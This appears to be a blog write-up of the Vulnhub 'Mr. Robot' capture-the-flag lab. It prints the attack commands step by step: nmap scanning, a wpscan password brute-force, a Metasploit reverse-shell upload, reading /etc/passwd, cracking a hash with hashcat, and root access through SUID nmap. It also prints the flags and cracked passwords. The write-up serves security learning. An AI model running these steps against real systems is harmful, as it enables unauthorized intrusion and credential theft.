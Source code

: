 ```yaml
---
title: "Mr. Robot"
date: 2020-12-25T01:02:30-06:00
draft: false
author: "Golgothus"
description: "Vulnhub - Mr. Robot room."
summary: "Vulnhub - Mr. Robot write-up."
tags: ["Vulnhub","Linux","Privesc"]
featuredImage: "/images/city.png"
categories: ["Vulnhub"]
---
```

# Mr Robot

First Vulnhub box coming up in the books!

Kicking it off with [Mr. Robot](https://www.vulnhub.com/entry/mr-robot-1,151/). Being super new to a lot of the "open" systems that are vulnerable, I had a tough time learning how to segment my network in a way that would allow my attacking box to be on my hosts network, while also being able to attack the exploitable box which is operating in its own segemented network.

We will find out more about that short process in another post.

So how do we get in? My friends told me, you have to "break" your way in. Time to "know your enemy" or in this case, "exploit". I kick off the below nmap scan:

```bash
nmap -sV 10.10.0.0/24
```

I used the above range as I know that's the IP address range within which I set my vulnerable box to sit in.

I get an IP of 10.10.0.130, with the following ports showing as open:

```bash
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
443/tcp open   ssl/http Apache httpd
```

With this, we can tell that there *should* be a website open and running. Since both 80 and 443 are operable, let's check it out. I looked over 10.10.0.130/robots.txt after having visited the initial site we see a nice little screen with references to the show.

![Mr Robot site](/images/2020-10-04-21-30-50.png)

Having had previous experience with web apps and application security, I know one of the first places you should look, or at least look for, is robots.txt. Should I be damned, there is a robots.txt present which provides the following:

```bash
User-agent: *
fsocity.dic
key-1-of-3.txt
```

When you view the site for [key-1-of-3.txt](http://10.10.0.130/key-1-of-3.txt) we get the following flag:
073403c8a58a1f80d943455fb30724b9

## Now on to flag 2:

I ended up breaking out of the front page by going to site/question which came up with a wordpress hosted site. I see there's a login available at [http://10.10.0.130/wp-login.php](http://10.10.0.130/wp-login.php)

Now to try and get us a login!

Let's pull down our dictionary list if we haven't already, then my friends mentioned to run the following:

```bash
sort fsocity.dic
cat -n fsocity.dic | uniq > newDic.dic
```

The reason we did this was due to the initial .dic file has 850,000+ lines of "passwords". The above line(s) will go through and sort the lines alphabetically, we then take this list and pull out any duplicate lines, then output it into a new file so we leave our initial list untouched.

Now, onto exploitation! We know this is a WordPress site, let's check out WPScan.

```bash
wpscan --url 10.10.0.130
```

We see the version of WordPress listed as:
WordPress version 4.3.1 identified (Insecure, released on 2015-09-15)

However, my friends mentioned the following command set:

```bash
wpscan --url 10.10.0.130 -U elliot -P newDic.dic
```

This would perform a brute-force attack against the site using the newDic password list we obtained when we found flag 2.

We get the following information for elliot

|username|password|
|---|---|
|elliot|ER28-0652|

We go through and get our meterpreter session

```bash
msfconsole
search wordpress 4.3
use 80
```

The reason I am using exploit 80 - *unix/webapp/wp_admin_shell_upload* is we're aiming to get a reverse shell into the server hosts system.

Next we have to setup a few of our options, in this case it seems decently wise to run:

```bash
show advanced
```

I setup my options similar to the following:

|command|option|
|---|---|
|set rhost | 10.0.0.128 |
|set lhost | 10.0.0.129 | 
|set username | elliot |
|set password | ER28-0652 |


What ends up happening if we set our options as we have above, is we then get a check saying *Exploit aborted due to failure: not-found: The target does not appear to be using Wordpress*

When we run `show advanced` it gives us an option for *wpcheck*. Let's go ahead and set this as well.

|command|option|
|---|---|
|set wpcheck | false |

Now we can run our exploit.

```bash
exploit
```

Give it a short moment and we should then get the response that our Meterpreter sessions 1 is open.

It seems that we don't have a fully interactive shell yet for our session. Using the following resource from [ropnop.com](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/) we ran the following lines.

```bash
shell
python -c 'import pty; pty.spawn("/bin/bash")'
```

Where do we go from here? Let's check out some of the users in /etc/passwd/ see who all has a login shell at their disposal.

```bash
cat /etc/passwd
```

Looking through the list we see a few potential targets:

```bash
mysql:x:1001:1001::/home/mysql:
varnish:x:999:999::/home/varnish:
robot:x:1002:1002::/home/robot:
```

I ran `ls /home/` to see who all has an available and existing user directory and the only result turns out to be none other than the user *robot*.

Let's see what kind of useful information they have for our disposal.

We can see the flag file exists, but we don't have access due to us not actually having read permissions. However, we **are** able to see the contents for the password.raw-md5 file.

```bash
cd /home/robot
cat *
cat: key-2-of-3.txt: Permission denied
robot:c3fcd3d76192e4007dfb496cca67e13b
```

Let's open up another tab in our terminal on our attacking system and run hashcat:

```bash
hashcat -m 0 c3fcd3d76192e4007dfb496cca67e13b /usr/share/wordlists/rockyou.txt
```

Inversely we could also use [crackstation](https://crackstation.net/). After a couple of moments the process completes and gives us the password for the user `robot`.

```bash
c3fcd3d76192e4007dfb496cca67e13b:abcdefghijklmnopqrstuvwxyz
su robot
```

Type in the password, and let's open up the flag file to get flag number 2.

flag2 - 822c73956184f694993bede3eb39f959

## Flag 3 - Final one

To be honest, I had no idea where / how to work on getting some privilege escalation done in order to get us to root. One of my teammates suggested nmap.

We went through it and were able to get an interactive privileged session we could escape which allowed us to have a root owned shell.

Long story short, there's a SUID permission which we can use the following search to find:

```bash
find / -perm -u=s -type f 2>/dev/null
```

You can find more information on SUID permissions on the below site:
[https://pentestlab.blog/](https://pentestlab.blog/2017/09/25/suid-executables/)

An example they used was nmap. Easy enough to say, that's what we will be using here as well.

```bash
nmap --interactive
nmap> !sh
#whoami
root
#
```

Now where could that last flag be? 🤔 No place like home!

```bash
cat /root/*
```

flag3 - 04787ddef27c3dee1ee161b21670b4e4
